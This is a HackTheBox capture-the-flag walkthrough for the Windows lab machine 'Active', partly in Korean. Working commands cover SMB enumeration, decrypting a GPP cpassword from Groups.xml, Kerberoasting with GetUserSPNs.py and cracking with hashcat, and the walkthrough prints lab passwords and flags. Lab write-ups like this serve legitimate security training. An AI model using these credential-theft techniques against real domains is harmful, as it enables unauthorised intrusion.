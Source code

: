 # HackTheBox Walkthrough - Active

**Machine Name**: Active  
**Target IP**: 10.129.225.44  
**Operating System**: Windows Server 2008 R2 SP1  
**Difficulty**: Medium  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -Pn -n --open -p- --max-retries 1 --min-rate 2000 10.129.225.44
nmap -sV -sC -oA nmap/Active 10.129.225.44 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49168
```
![nmap](img/nmap.png)

**Ports Identified:**
- SMB 관련 포트: 139, 445
- LDAP: 389, 3268
- Kerberos: 88
- 기타 RPC, HTTPAPI 등 포함

---

## 📂 SMB Enumeration

```bash
smbclient -L //10.129.225.44 -N
```
![smblist](img/smblist.png)

**Shares:**
```
ADMIN$
C$
IPC$
NETLOGON
Replication
SYSVOL
Users
```

✅ **총 7개의 SMB 공유 폴더 존재**  
✅ **익명 읽기 가능한 공유 폴더**: `Replication`

---

## 🔐 GPP Credential Leak

```bash
smbclient //10.129.225.44/Replication -N
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
get Groups.xml
```
![Group](img/Group.png)
![groupxml](img/groupxml.png)

**📄 Groups.xml 내용 요약:**
- 사용자: `SVC_TGS`
- 암호화된 비밀번호(cpassword) 존재

```xml
<User ... userName="active.htb\SVC_TGS" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf..." />
```

**복호화:**

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf...'
```
![gppdecrypt](img/gppdecrypt.png)

✅ **복호화된 패스워드**: `GPPstillStandingStrong2k18`

---

## 🔑 사용자 플래그 획득
![Users](img/Users.png)

```bash
smbclient -U 'ACTIVE\SVC_TGS' //10.129.225.44/Users
cd SVC_TGS/Desktop/
get user.txt
```

📄 **User Flag**:
```
2b1315e704553f8423562cb29ed99ea1
```
![userflag](img/userflag.png)

---

## 🦀 Kerberoasting

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44
```
![impacket](img/impacket.png)

- vulnerable service account: `Administrator`
- SPN: `active/CIFS:445`

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44 -request > hash.txt
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force
```
![hash](img/hash.png)
![cracked](img/cracked.png)

✅ **Cracked Password**: `Ticketmaster1968`

---

## 🧠 Root 플래그 획득

```bash
smbclient -U 'ACTIVE\Administrator' //10.129.225.44/Users
cd Administrator/Desktop/
get root.txt
```
![Administrator](img/Administrator.png)

📄 **Root Flag**:
![rootflag](img/rootflag.png)

```
1fdde5163e1c0ee88a54fa5facb901a1
```

---

✅ **공격 요약**
- GPP(Grouppolicy Preferences) XML에서 SVC_TGS 계정 비밀번호 추출
- Kerberoasting을 통한 Administrator 티켓 덤프 및 크래킹
- SMB를 통해 플래그 획득
